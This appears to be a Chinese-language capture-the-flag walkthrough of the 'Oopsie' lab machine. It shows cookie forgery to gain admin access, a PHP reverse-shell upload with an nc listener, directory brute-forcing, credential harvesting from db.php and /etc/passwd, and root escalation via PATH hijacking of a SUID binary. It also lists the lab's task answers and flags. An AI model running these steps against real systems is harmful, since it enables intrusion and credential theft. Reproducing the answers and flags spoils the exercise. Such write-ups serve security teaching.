


Oopsie

使用nmap扫描目标

```
namp -sC -sV 10.129.184.110
```


通过nmap扫描出来22，80 端口 ，我们试着去访问80端口


查看页面源代码发现，有一个登录页面。


访问这个登录页面，尝试了弱口令不成功，于是以访客身份登录


登录进去发现了上传，但是需要超级管理员权限


我们试着用id=1访问页面发现了管理员id


伪装成管理员的cookie

```
document.cookie='user=34322; role=admin'
```


现在就能访问上传页面了


既然我们能够访问到文件上传页面那我们就编写使用后门shell进行上传

```
vim /usr/share/webshells/php/php-reverse-shell.php
```


启动nc监听5566端口

```
nc -nvlp 5566
```

然后上传webshell


上传了。现在我们可能需要对目录进行暴力破解，以便找到存储上传文件的文件夹，但我们也可以猜测它。比如说uploads。我们通过运行`gobuster`工具来确认这一点

```
gobuster dir  -u http://10.129.184.110   -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```


`gobuster`立即找到了/uploads目录。我们没有访问目录的权限，但是我们可以尝试访问我们上传的文件。

```
http://10.129.184.110/uploads/php-reverse-shell.php
```


nc监听终端已经上线，并查看到用户为：www.date



为了拥有一个功能外壳，我们可以发出以下命令

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

进入到源代码中找寻到数据库用户密码

```
cd /var/www/html/cdn-cgi/login
cat db.php
```


在`/var/www/html/cdncgi/login`文件中找到关于密码的文件

```
cat * | grep pass*
```


读取`/etc/passwd`文件得到系统中有是多少用户

```
cat /etc/passwd
```


使用robert用户登录

```
su robert
M3g4C0rpUs3r!
```


在用户目录找到flag：f2c74ee8db7983851ab2a96a44eb7981



在运行任何特权升级或枚举脚本之前，让我们检查一下用于提升特权(如sudo和id)的基本命令:


我们观察到用户robert是bug跟踪组的成员。让我们试着看看在这一组中是否存在代码

```
find / -group bugtracker 2>/dev/null
```


找到了一个名为“bugtracker”的文件。我们检查它的权限和文件类型:

```
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```


在这个二进制文件上设置了一个`suid`，这是一个很有前途的开发路径。

用户“执行”字段中的“s”，它“作为”其创建者运行，在本例中为 root

通常称为SUID (Set owner User ID)，用户访问级别的特殊权限只有一个功能:具有SUID的文件始终以拥有该文件的用户的身份执行，而不管传递命令的用户是谁。如果文件所有者没有执行权限，那么在这里使用大写的S。

在我们的例子中，二进制'bugtracker'由root用户拥有，我们可以作为root用户执行它，因为它设置了SUID


查看输出时，您可以看到它看起来像一个系统命令，使用相对路径而不是绝对路径调用cat命令。你现在在想什么?是的，我们可以创建名为cat的恶意文件，并修改路径以包含当前工作目录。使用这种方法，我们可以滥用这种错误配置，并将我们的权限升级为root。


该工具接受用户输入作为将使用cat命令读取的文件的名称，但是，它没有指定文件cat的整个路径，因此我们可能能够利用这一点。我们将导航到/tmp目录，并创建一个名为cat的文件，其中包含以下内容

```
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
export PATH=/tmp:$PATH
echo $PATH
```


最后在/tmp目录下执行bug跟踪器:


进入到root目录下使用vim读取


af13b0bee69f8a877c3faf667f7beacf

任务1

用什么样的工具可以拦截网络流量？

proxy

任务 2

返回登录页面的 Web 服务器上目录的路径是什么？

/cdn-cgi/login

任务 3

可以在 Firefox 中修改什么以访问上传页面？

cookie

任务 4

管理员用户的访问 ID 是什么？

34322

任务 5

上传文件时，该文件出现在服务器的哪个目录中？

/uploads

任务 6

包含与 robert 用户共享的密码的文件是什么？

db.php

任务 7

使用选项“-group bugtracker”运行什么可执行文件以识别bugtracker组拥有的所有文件？

find

任务 8

无论哪个用户开始运行 bugtracker 可执行文件，将使用什么用户权限来运行？

root

任务 9

SUID 代表什么？

Set owner User ID

设置所有者用户ID

任务 10

以不安全方式调用的可执行文件的名称是什么？

cat

提交用户标志

f2c74ee8db7983851ab2a96a44eb7981

提交根标志

af13b0bee69f8a877c3faf667f7beacf

